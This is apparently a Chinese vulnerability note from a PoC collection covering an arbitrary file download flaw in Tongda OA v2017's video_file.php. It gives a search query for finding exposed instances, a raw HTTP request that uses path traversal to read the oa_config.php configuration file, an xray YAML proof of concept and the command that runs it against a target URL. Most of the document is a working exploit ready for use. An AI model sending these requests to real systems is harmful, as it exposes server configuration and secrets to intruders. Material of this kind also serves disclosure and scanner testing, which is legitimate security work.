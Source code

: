 # 通达OA v2017 video_file.php 任意文件下载漏洞
## 漏洞描述

通达OA v2017 video_file.php文件存在任意文件下载漏洞，攻击者通过漏洞可以读取服务器敏感文件

## 影响版本
```
通达OA v2017
```

## 网络测绘
```
app="TDXK-通达OA"
```

## 环境搭建

-
## 漏洞复现
![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201950041.png)

## 数据包
```
GET /general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

## YAML代码
```
name: poc-yaml-tongda-v2017-video-file-download
manual: true
transport: http
rules:
  r0:
    request:
      cache: true
      method: GET
      path: /general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php
    expression: response.status == 200 && response.body.bcontains(b'$ROOT_PATH') && response.body.bcontains(b'$ATTACH_PATH')
expression: r0()
detail:
  author: klear
  links:
    - https://vuls.info/PeiQi/wiki/oa/%E9%80%9A%E8%BE%BEOA/%E9%80%9A%E8%BE%BEOA%20v2017%20video_file.php%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD%E6%BC%8F%E6%B4%9E

```

## xray调用

```
xraypro  ws --poc poc-yaml-tongda-v2017-video-file-download.yml  --url xx
```

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201949604.png)
